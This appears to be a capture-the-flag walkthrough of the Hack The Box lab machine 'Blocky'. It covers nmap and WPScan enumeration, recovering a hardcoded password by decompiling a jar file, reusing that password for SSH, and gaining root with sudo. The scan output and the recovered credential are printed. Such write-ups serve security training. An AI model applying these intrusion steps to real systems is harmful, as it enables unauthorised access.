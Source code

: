 # Walkthrough: Blocky HTB Machine

**Target IP Address**: `10.10.10.37`  
**Difficulty**: Easy  
**Tools Used**: Nmap, WPScan, JD-GUI, SSH

## Step 1: Initial Enumeration

To start, I performed an Nmap scan to identify open ports and services.

```bash
nmap -sC -sV 10.10.10.37
```

### Nmap Results:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 14:39 IST
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 5.05% done; ETC: 14:40 (0:00:38 remaining)
Nmap scan report for 10.10.10.37
Host is up (0.071s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://blocky.htb
|_http-server-header: Apache/2.4.18 (Ubuntu)
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.36 seconds
```

The HTTP service redirected to `http://blocky.htb`, suggesting a hostname requirement.

### Update Hosts File

```bash
sudo nano /etc/hosts
```

Add the following entry:
```
10.10.10.37 blocky.htb
```

## Step 2: Web Enumeration

With the website active, I used WPScan to further enumerate the WordPress site and discovered the user .

```
[+] notch
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blocky.htb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

## Step 3: Decompiling BlockyCore.jar

A downloadable `.jar` file was available on the website. I used `JD-GUI` to analyze the `BlockyCore.jar` file for sensitive information.

The code snippet revealed the following:

```
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

These credentials hinted at possible SSH access.

## Step 4: Gaining Access via SSH

Using the discovered credentials, I logged into SSH with the username `notch`:

```bash
ssh notch@10.10.10.37
```

**Password**: `8YsqfCTnvxAUeduzjNSXe22`

This granted me user-level access.

## Step 5: Privilege Escalation

With user access, I executed `sudo -i` to escalate privileges:

```bash
sudo -i
```
After being promoted to root, we can get a root flag.
